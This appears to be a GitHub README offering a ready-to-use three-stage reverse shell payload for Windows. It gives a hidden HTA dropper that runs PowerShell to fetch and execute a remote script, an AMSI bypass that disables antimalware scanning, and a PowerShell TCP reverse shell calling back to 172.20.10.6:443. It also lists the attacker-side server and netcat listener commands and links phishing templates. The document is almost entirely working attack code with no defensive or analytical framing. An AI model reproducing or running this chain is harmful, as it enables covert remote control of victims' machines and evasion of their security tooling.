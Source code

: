 # reverseshell
A small 3 stage reverse shell payload for windows

````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````

STAGE1.hta

````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````
<!DOCTYPE html>
<html>
<head>
	<HTA:APPLICATION icon="#" WINDOWSTATE="minimize" SHOWINTASKBAR="no"SYSMENU="no" CAPTION="no" />
	<script language="VBScript">
	Function var_func()
	Dim var_shell
	Set var_shell = CreateObject("Wscript.Shell")
	var_shell.run "powershell.exe iex (iwr http://172.20.10.6/stage2.ps1 -UseBasicParsing)", 0, true
	End Function
	var_func
	self.close
	</script>
</head>
<body>
</body>
</html>

````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````

STAGE2.ps1

````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````

$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Failed") {$f=$e}};$f.SetValue($null,$true)
iex (iwr http://172.20.10.6/stage3.ps1 -UseBasicParsing)

````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````

STAGE3.ps1

````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````

$client = New-Object System.Net.Sockets.TCPClient('172.20.10.6',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()


````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````


CMD!!

sudo python3 -m http.server 80
sudo nc -nvlp 443



https://cyberchef.io/
https://github.com/ZeroPointSecurity/PhishingTemplates/tree/master




